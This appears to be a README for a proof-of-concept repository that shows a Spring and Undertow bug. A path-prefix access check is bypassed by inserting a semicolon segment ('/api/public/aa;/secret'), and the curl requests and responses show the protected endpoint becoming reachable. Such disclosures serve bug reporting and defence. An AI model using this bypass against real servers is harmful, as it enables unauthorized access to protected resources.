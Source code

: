 # spring & undertow Bug PoC

This server accept the request only if the path starts with `/api/public/`.

[DemoInterceptor](src/main/java/com/example/demo/DemoInterceptor.java) checks request URI.

```
$ curl "localhost:9000/secret" -i
HTTP/1.1 500 Internal Server Error
Connection: keep-alive
Content-Length: 0
Date: Thu, 29 Aug 2019 10:20:04 GMT
```

But the bug of undertow allows the user to access `/secret`.

```
$ curl "localhost:9000/api/public/aa;/secret" -i
HTTP/1.1 200 OK
Connection: keep-alive
Content-Type: text/plain;charset=UTF-8
Content-Length: 17
Date: Thu, 29 Aug 2019 10:19:00 GMT

this is secret!!!
```
